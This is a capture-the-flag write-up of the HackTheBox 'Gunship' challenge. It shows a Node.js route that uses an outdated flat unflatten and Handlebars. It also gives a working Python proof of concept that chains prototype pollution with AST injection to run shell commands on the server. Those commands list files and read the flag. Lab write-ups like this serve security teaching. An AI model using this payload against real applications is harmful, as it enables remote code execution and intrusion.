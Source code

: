 # Gunship
This is a beautiful and simple node web application that contains only one user input And vulnerability 
may be at this point.

<p align="center">
<img src="./images/Screenshot.png">
</p>

Inspection of the source code reveals a comment that hints towards the exploit being caused by prototype pollution in unflatten.

> unflatten seems outdated and a bit vulnerable to prototype pollution we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines

```js
const path              = require('path');
const express           = require('express');
const handlebars        = require('handlebars');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	// unflatten seems outdated and a bit vulnerable to prototype pollution
	// we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines

    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': handlebars.compile('Hello {{ user }}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```
Some google-fu leads us pretty quickly to the following site with a POC by posix on a protype pollution in AST : [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/#Exploit)

The proof of concept from the site above only required minor changes in order to get command execution. Note that bash is not available inside the docker container, we could use sh instead but as we only need to grab the flag we can just use simple commands.


```python
import requests

URL = '[URL]'

# make pollution
r = requests.post(URL+'/api/submit', json = {
    "artist.name":"Gingell",
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`whoami > /app/static/out`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
    })
print(requests.get(URL+'/static/out').text)
```

The command execution is blind, however as we know that the path to the static folder is `/app/static` we can write files into this path and then request them to see the output.

A quick `ls > /app/static/out` and browsing to `/static/out` shows that there is a flag in the current folder.

Changing the command to `cat flag* > /app/static/out` and browsing to `/static/out` again gives us the flag : `HTB{wh3n_l1f3_******_***_**_*****_*********_****_*****}`

